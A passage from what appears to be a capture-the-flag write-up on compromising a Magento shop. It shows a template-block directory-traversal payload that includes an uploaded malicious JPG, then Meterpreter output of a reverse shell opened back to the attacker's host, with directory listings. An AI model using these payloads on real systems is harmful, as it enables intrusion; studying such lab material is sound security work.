 Now we go an add a block to a new newsletter template to fetch our malicious JPG and include it in the newsletter template
```
{{block type='core/template' template='../../../../../../media/catalog/category/shell.jpg'}}
```

Give the template a name and subject so it passes validation and hit preview.

```
[*] Sending stage (38247 bytes) to 10.10.10.140
[*] Meterpreter session 1 opened (10.10.16.58:4444 -> 10.10.10.140:57722) at 2019-07-26 13:26:07 +0100
meterpreter > getuid
Server username: www-data (33)<Paste>
```

So now we have a shell as www-data, which is usually quite unpriviledged.
```
meterpreter > ls
Listing: /var/www/html
======================

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
100644/rw-r--r--  5667    fil   2014-05-07 19:58:50 +0100  .htaccess
100644/rw-r--r--  4568    fil   2014-05-07 19:58:50 +0100  .htaccess.sample
100644/rw-r--r--  10679   fil   2014-05-07 19:58:52 +0100  LICENSE.html
100644/rw-r--r--  10410   fil   2014-05-07 19:58:52 +0100  LICENSE.txt
100644/rw-r--r--  10421   fil   2014-05-07 19:58:52 +0100  LICENSE_AFL.txt
100644/rw-r--r--  585086  fil   2014-05-07 19:58:50 +0100  RELEASE_NOTES.txt
100644/rw-r--r--  2834    fil   2014-05-07 19:58:52 +0100  api.php
40755/rwxr-xr-x   4096    dir   2014-05-07 19:58:52 +0100  app
100644/rw-r--r--  2831    fil   2014-05-07 19:58:52 +0100  cron.php
100644/rw-r--r--  717     fil   2014-05-07 19:58:50 +0100  cron.sh
40755/rwxr-xr-x   4096    dir   2019-05-08 12:13:36 +0100  downloader
40755/rwxr-xr-x   4096    dir   2014-05-07 19:58:50 +0100  errors
100644/rw-r--r--  1150    fil   2014-05-07 19:58:50 +0100  favicon.ico
100644/rw-r--r--  5979    fil   2014-05-07 19:58:50 +0100  get.php
40755/rwxr-xr-x   4096    dir   2014-05-07 19:58:52 +0100  includes
100644/rw-r--r--  2642    fil   2014-05-07 19:58:50 +0100  index.php
100644/rw-r--r--  2366    fil   2014-05-07 19:58:52 +0100  index.php.sample
100644/rw-r--r--  6441    fil   2014-05-07 19:58:52 +0100  install.php
40755/rwxr-xr-x   4096    dir   2014-05-07 19:58:50 +0100  js
40755/rwxr-xr-x   4096    dir   2014-05-07 19:58:50 +0100  lib
100644/rw-r--r--  1319    fil   2014-05-07 19:58:50 +0100  mage
40777/rwxrwxrwx   4096    dir   2019-05-08 11:00:00 +0100  media
100644/rw-r--r--  886     fil   2014-05-07 19:58:52 +0100  php.ini.sample
40755/rwxr-xr-x   4096    dir   2014-05-07 19:58:52 +0100  pkginfo
40755/rwxr-xr-x   4096    dir   2014-05-07 19:58:52 +0100  shell
40755/rwxr-xr-x   4096    dir   2014-05-07 19:58:50 +0100  skin
40755/rwxr-xr-x   4096    dir   2019-07-26 12:50:29 +0100  var

meterpreter > cd ..
meterpreter > pwd
/var/www
meterpreter > ls
Listing: /var/www
=================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100600/rw-------  591   fil   2019-05-08 13:12:30 +0100  .viminfo
40755/rwxr-xr-x   4096  dir   2019-05-08 13:12:30 +0100  html

meterpreter > cd ../../
meterpreter > ls
```
